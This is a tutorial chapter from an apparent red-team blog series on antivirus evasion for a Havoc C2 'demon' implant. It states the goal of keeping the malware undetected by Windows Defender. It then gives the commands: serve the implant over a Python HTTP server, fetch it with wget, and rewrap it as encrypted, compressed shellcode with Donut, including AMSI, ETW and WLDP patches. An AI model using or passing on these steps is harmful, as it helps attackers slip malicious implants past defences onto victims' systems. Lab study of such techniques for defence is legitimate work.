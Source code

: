 ![](http://news.baycode.eu/wp-content/uploads/2023/11/37.png)

This is not the end though.

<div id="0x07"></div>

# 0x07 Anti Virus evasion
<a href="#0x06"><button class="nav-btn">Previous chapter</button></a><a href="#0x08"><button class="nav-btn">Next chapter</button></a>

Despite Havoc's demons' use of techniques like proxying system calls, delaying commands, and AMSI patching to evade detection and remain hidden, we must adapt our methodology to avoid triggering existing signatures in Microsoft Windows Defender and prevent detection of binary in the first place.

`https://www.youtube.com/watch?v=K8hiXbyO8PU`
![](http://news.baycode.eu/wp-content/uploads/2023/11/widziszmie.png)

## Obfuscation

We want this malware to stay undetected, and the more changes we make to the binary, the better. The more encrypted payloads, the better, and the more payloads compiled on Windows, the lesser detection. Let's continue without going too in depth into malware development.

### Okay, but what is the detection rate for this well known malware?

![](http://news.baycode.eu/wp-content/uploads/2023/11/38.png)

As we can see, detection rate is too high as Microsoft Defender has detected the payload. The payload has been signatured into the oblivion. Let's transfer the .dll onto a **Flare VM** (https://github.com/mandiant/flare-vm) machine and do some operations on it. We can share the file using Python HTTP server, and download it straight on Flare VM.

```
┌──(root㉿kali)-[/home/kali/Desktop]
└─# python3 -m http.server                             
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Our next step is to recompile the shellcode with Donut (https://github.com/TheWover/donut).
Donut is a tool that allows to extract position-independent shellcode from binaries, and for example compresses it, encrypts it, or adds other functionality such as AMSI patch, ETW patch, or WLDP patch. The shellcode can be then injected into memory of another process (for example using C2), or using a custom loader/injector.

```
wget http://<kali-ip>:8000/demon.x64.exe -outfile demon.x64.exe
wget https://github.com/TheWover/donut/releases/download/v1.0/donut_v1.0.zip -outfile donut.zip
.\donut.exe -a 3 -z 4 -i demon.x64.exe
```

![](http://news.baycode.eu/wp-content/uploads/2023/11/39c.png)
